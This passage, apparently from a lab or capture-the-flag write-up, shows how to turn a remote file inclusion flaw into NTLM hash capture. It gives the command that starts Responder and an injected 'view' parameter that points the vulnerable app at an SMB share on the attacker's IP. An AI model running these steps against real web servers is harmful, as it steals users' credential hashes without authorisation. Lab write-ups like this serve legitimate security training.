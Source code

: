 ![Alt text](img/image-6.png)


One thing comes to my mind, if HTTP URI works without any problem, SMB URI should work also.


I will use SMB due to catching NTLM hash of user which runs web server.

1.For this, I need to turn `responder` .
```bash
responder -I tun0
```

![Alt text](img/image-9.png)

2.Second, I need to add SMB URI into RFI injection part.
```bash
?view=//10.10.16.6/share/poc.txt
```

![Alt text](img/image-8.png)
